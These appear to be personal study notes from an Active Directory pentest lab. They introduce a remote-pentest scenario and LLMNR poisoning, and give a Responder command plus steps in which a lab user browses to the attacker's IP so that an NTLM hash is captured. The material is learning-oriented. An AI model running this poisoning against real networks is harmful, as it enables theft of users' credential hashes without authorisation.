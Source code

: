 **WE HAVE FINISHED THE AD LAB SETUP :)**


### Intro AD Attacks
Scenario that we are going to simulate:
- we have a client
- we are performing a pentest
- as a company we send a laptop to the client
	- inside the laptop there is a VPN connection
	- if the VPN connection is enabled:
		- => the pentest team can connect to the VPN
		- => we can run the attacks remotely 
		- 
> [!info] 
> This is the typical scenario for a pentester
> =>
> you don't need anymore to go phisicaly to the client company

=>
	the idea is that -->  - the client laptop has been compromised
					 - we are going to run different attacks
 
#### LLMNR Poisoning
Most common attack in -->  internal penetatrion test

LLMNR = <span style="color:#00b050">Link Local Multicast Name Resolution</span> 
         - protocol used to **identify hosts when DNS fails to do so****
         - previously called NBT-NS

Workflow attack:
![[Pasted image 20240225102230.png]]
the service uses:
- username
- hash                -->   when someone appropriately responded to
  
=>
if we respond to the server in the right way =>    - the server will send us the username + hash
                                         - we can try to decrypt the hash

##### Responder
#AD_tool
we'll use the tool [[cheat#Responder|responder]] -->  to perform this attack
=>
`sudo python3 Responder.py -I vmnet8 -dPv`    (or dwv)

from THEPUNISHER:
- login as fcastle with Password1
- open file explorer
- type in the bar -->  `\\ip attacker`
=>
<span style="color:#00b050">we have capture hash</span>
![[Pasted image 20240225110349.png]]

